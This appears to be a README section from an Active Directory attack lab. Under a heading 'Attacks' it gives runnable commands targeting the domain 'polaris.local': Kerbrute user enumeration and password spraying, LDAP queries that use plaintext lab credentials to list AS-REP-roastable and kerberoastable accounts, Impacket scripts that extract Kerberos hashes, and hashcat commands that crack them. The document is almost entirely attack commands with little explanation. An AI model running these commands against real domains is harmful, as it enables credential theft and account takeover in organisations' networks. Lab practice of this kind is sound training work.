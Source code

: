 ### Attacks

#### User Enumeration
```bash
./kerbrute userenum -d polaris.local users.txt --dc 192.168.122.10
```

#### Password Spraying
```bash
./kerbrute passwordspray -d polaris.local valid_users.txt --dc 192.168.122.10 Password123
```

#### LDAP Queries
1. Query to obtain information on all users:
```bash
ldapsearch -H ldap://192.168.122.10 -D 'jesse.pinkman@polaris.local' -w Wang0Tang0! -b 'DC=polaris,DC=local' '(&(objectCategory=person)(objectClass=user))'
```

2. Query list all asrep-roastable users:
```bash
ldapsearch -H ldap://192.168.122.10 -D 'jesse.pinkman@polaris.local' -w Wang0Tang0! -b 'DC=polaris,DC=local' '(&(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=4194304))'
```

3. Query to list all kerberoastable users:
```bash
ldapsearch -H ldap://192.168.122.10 -D 'leon@polaris.local' -w Password123 -b
'DC=polaris,DC=local'
'(&(objectClass=user)(servicePrincipalName=*)(!(cn=krbtgt))(!(userAccountControl:1
.2.840.113556.1.4.803:=2)))'
```

#### AS-REP Roasting
1. Obtain the content of AS-REP message encrypted with the user  of password hash of users with no pre-authentication
```bash
GetNPUsers.py polaris.local/ -no-pass -usersfile valid_users.txt -format hashcat -outputfile hashes.asreproast
```
2. Try to decrypt the encrypted content:
```bash
hashcat -m 18200 hashes.asreproast passwords.txt -o cracked1.txt --force --quiet
```

#### Kerberoasting
1. Obtain a TGS for a service.
```bash
GetUserSPNs.py -request polaris.local/jesse.pinkman:Wang0Tang0! -outputfile kerberoasting.hashes
```

2. Try to decrypt the encrypted content.
```bash
hashcat -m 13100 kerberoasting.hashes passwords.txt -o cracked2.txt --force --quiet
```
